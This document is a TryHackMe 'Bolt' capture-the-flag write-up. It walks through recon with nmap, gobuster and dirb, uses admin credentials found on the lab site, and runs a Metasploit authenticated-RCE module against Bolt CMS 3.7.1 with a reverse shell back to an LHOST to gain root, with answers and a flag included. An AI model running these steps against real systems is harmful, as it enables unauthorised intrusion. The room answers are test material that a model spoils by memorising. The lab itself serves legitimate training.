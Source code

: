 Bolt Link: https://tryhackme.com/r/room/bolt

Firstly we will start with golden searches because scanning takes a long time.  
nmap -pn -p- -sC -sV (IP) -vvv -oA nmap_full  
![7f8fd8d9db1636cb5773a3c615dca639.png](resources/7f8fd8d9db1636cb5773a3c615dca639.png)  
with nmap scan. Nmap shows us three ports are open, we don’t any information about ssh, let’s focus on http

Basic Directory Scan, gobuster  
**gobuster di**r -u http://IP -w /usr/share/wordlists/dirb/common.txt

Basic Scan, dirb = We will use these results for web server analysis.  
\*\*dirb http://\*\*IP = We will use these results for web server analysis.

Basic Scan netdiscover  
netdiscover = It is used during penetration tests to quickly identify which devices are  
connected to the network.

Access the website, and we get it.

![d86ec8633640c5434960dde97b7c24a0.png](resources/d86ec8633640c5434960dde97b7c24a0.png)

let’s explore this website, in the first article we get interesting information, where we get the username.  
![7a04e64f25934c5b44f4b7347e287e63.png](resources/7a04e64f25934c5b44f4b7347e287e63.png)

The second article shows that we get the password to log in.

![445c5380bdd3d7c1a7cdde7e02182b2c.png](resources/445c5380bdd3d7c1a7cdde7e02182b2c.png)

Username: bolt  
Password: boltadmin123

I tried to search on Google for the Bolt CMS default login page address.

![fe77bbddd071e948a5fda5849ff37d9a.png](resources/fe77bbddd071e948a5fda5849ff37d9a.png)

let’s try to access the login page using the username and password that we got earlier.

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="357" loading="lazy" role="presentation" src="resources/1_fVUJkSUJOoWHPBvq6fCYgg.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

yeah, we’re in :) on the web dashboard we get information about the CMS version of this website.

![86a1ac424936a10bb73d37162145929b.png](resources/86a1ac424936a10bb73d37162145929b.png)

> What version of the CMS is installed on the server? (Ex: Name 1.1.1)
> 
> Answer : Bolt 3.7.1
> 
> ![583ad5a03ad1b11fd787dc5a8494aa34.png](resources/583ad5a03ad1b11fd787dc5a8494aa34.png)

![bdcb15c1c273db3e5898fcaf815210c1.png](resources/bdcb15c1c273db3e5898fcaf815210c1.png)

Look for vulnerabilities in this version of the CMS, and it looks like there are vulnerabilities there.  
![adb5a3e4c65f9159c50d9bdcd37448f8.png](resources/adb5a3e4c65f9159c50d9bdcd37448f8.png)

![add65453ed9ee01750314246f56c15f7.png](resources/add65453ed9ee01750314246f56c15f7.png)

![4bab98752da3486ad6bee25ba2fca4d2.png](resources/4bab98752da3486ad6bee25ba2fca4d2.png)

> There’s an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What’s its EDB-ID?
> 
> Answer: 48296

&nbsp;

Q: Metaspluoi

Answer: exploit/unix/webapp/bolt_authenticated_rce

&nbsp;

let’s try using msfconsole, and look for a module that matches the vulnerability we’ve been looking for before.

just type search bolt --> this command is going to find all macthing bolt exploits.

![75389091e54cd2c174064bc314079858.png](resources/75389091e54cd2c174064bc314079858.png)

Use the module, and it can be seen that we need a username, password, rhost, and rhost to run this exploit  
![711ae2814373e11b3c88736ad0c21d38.png](resources/711ae2814373e11b3c88736ad0c21d38.png)

Set username, password, rhost, and rhost with existing information.  
![6477ac5377a349d149d24041775f9076.png](resources/6477ac5377a349d149d24041775f9076.png)

![183e74dfa3074990213c88ab2bde2297.png](resources/183e74dfa3074990213c88ab2bde2297.png)

Run the exploit, and boommm. we’re in :)

![d1517757897ff35ed31065d4e1d0f389.png](resources/d1517757897ff35ed31065d4e1d0f389.png)

Try to see the account that we got, and we have got root access :)

Look for the flag in the machine, and we get it.

1.  way

![e388e707a08ef09dbce8edfe78e1cae3.png](resources/e388e707a08ef09dbce8edfe78e1cae3.png)

> Look for flag.txt inside the machine.
> 
> Answer: THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}

second way

![37aaa9ac772c1164ee9d824a48d6452e.png](resources/37aaa9ac772c1164ee9d824a48d6452e.png)

# Conslusion:

msfconsole is a powerful tool for cybersecurity professionals and facilitates tasks such as  
testing attack vectors, finding vulnerabilities, and bypassing security defenses. This tool is used  
by both ethical hackers and malicious actors.  
“msfconsole is a strong tool for cybersecurity experts. It helps test attack methods, find  
security weaknesses, and get around security protections. Both ethical hackers and bad actors  
use this tool.”  
"First I used the 'use' command to select the exploit and then the 'show options' command to  
look for all the options available in the exploit."  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS bolt  
RHOSTS => bolt  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST  
10.9.137.76  
LHOST => 10.9.137.76  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD  
boltadmin123  
PASSWORD => boltadmin123  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt  
USERNAME => bolt  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LPORT 3344  
LPORT => 3344  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit  
Whoami  
Root  
find / -name 'flag.txt' 2>/dev/null  
/home/flag.txt  
Cat /home/flag.txt  
THM…..  
Shell , enter!  
\[+\] Reverted user profile back to original state.  
id  
uid=0(root) gid=0(root) groups=0(root)  
Now that we have a root shell, we can read the final flag. I searched for the flag and found that it  
was present in the home directory.  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
root@bolt:~/public/files# find / -name flag.txt 2>/dev/null  
find / -name flag.txt 2>/dev/null  
/home/flag.txt  
root@bolt:~/public/files# cat /home/flag.txt  
cat /home/flag.txt  
THM{\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}  
root@bolt:~/public/files#  
OR
